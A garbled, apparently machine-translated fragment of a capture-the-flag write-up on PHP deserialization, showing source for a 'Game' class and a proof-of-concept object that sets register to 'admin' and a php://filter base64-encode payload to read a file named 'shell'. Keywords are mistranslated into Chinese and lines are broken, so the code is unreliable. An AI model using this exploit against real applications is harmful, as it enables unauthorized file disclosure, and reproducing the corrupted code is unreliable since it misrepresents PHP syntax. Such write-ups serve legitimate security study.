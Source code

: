 
|

    
    
      
    class  Game { public $username ; 公共$password ; 公共$choice ; 公共$register ;  
            
            
            
            
      
        公共  $file ; 公共$ 文件名；公开$content ; 公共函数__construct (  
            
            
          
          )  
         { $this ->username= 'user' ; $this ->password= '用户' ;     }  
              
              
      
      
        公共 函数 __wakeup () { if (md5( $this ->register)=== "21232f297a57a5a743894a0e4a801fc3" ){     // admin $this ->choice= new login( $this ->file, $this ->filename, $this ->content) ;         } else { $this ->choice = new register();         }     }公共函数__destruct (  
              
                  
      
                  
      
      
          ) { $this ->choice->checking( $this ->username, $this ->password);     }  
              
      
      
    }  
      
    类 登录{公共$file ; 公共$ 文件名；   公开$content ; }  
           
           
           
      
      
    class  Open { function open ( $filename , $content ) {    }} $poc = new Game(); $poc ->username = "admin" ; $poc ->password = "admin" ; $poc ->register = "admin" ; $poc ->file = new Open(); $poc ->filename = "php://filter/read=convert.base64-encode/resource=shell" ; $poc ->content = "xxx" ;  
           
      
      
      
      
      
      
      
      
      
    $poc ));  
      
  
---|---  
  
`  
`

`执行POC得到payload：`

`  
`

``

`蟒蛇`
